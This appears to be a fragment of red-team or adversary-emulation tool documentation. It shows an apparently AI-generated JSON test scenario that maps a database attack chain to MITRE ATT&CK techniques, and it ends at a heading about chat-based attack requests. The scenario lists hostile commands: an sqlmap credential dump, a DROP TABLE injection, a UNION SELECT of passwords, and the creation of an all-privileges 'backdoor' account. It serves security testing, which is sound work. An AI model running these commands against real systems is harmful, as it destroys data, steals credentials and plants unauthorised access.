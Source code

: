 ```javascript
  "generatedScenario": {
    "name": "Database Security Assessment",
    "description": "AI-generated scenario targeting SQL injection and privilege escalation",
    "attackChain": [
      {
        "technique": "T1190",
        "name": "Exploit Public-Facing Application",
        "implementation": "SQL injection attempts on web forms",
        "commands": [
          "sqlmap -u 'http://app/login' --batch --dump",
          "'; DROP TABLE test; --",
          "UNION SELECT username, password FROM users"
        ]
      },
      {
        "technique": "T1078",
        "name": "Valid Accounts",
        "implementation": "Use discovered credentials",
        "commands": [
          "mysql -u discovered_user -p'password' -h db_server",
          "SHOW GRANTS;",
          "SELECT * FROM mysql.user;"
        ]
      },
      {
        "technique": "T1068",
        "name": "Privilege Escalation",
        "implementation": "Escalate database privileges",
        "commands": [
          "CREATE USER 'backdoor'@'%' IDENTIFIED BY 'pass';",
          "GRANT ALL PRIVILEGES ON *.* TO 'backdoor'@'%';",
          "UDF privilege escalation attempt"
        ]
      }
    ],
    "expectedOutcomes": [
      "Test SQL injection prevention",
      "Verify privilege separation",
      "Check audit logging",
      "Validate input sanitization"
    ],
    "rollbackPlan": "All changes will be reverted after test"
  },
  "requiresApproval": true
}
```

---

## 💬 **4. CHAT-BASED ATTACK REQUESTS**
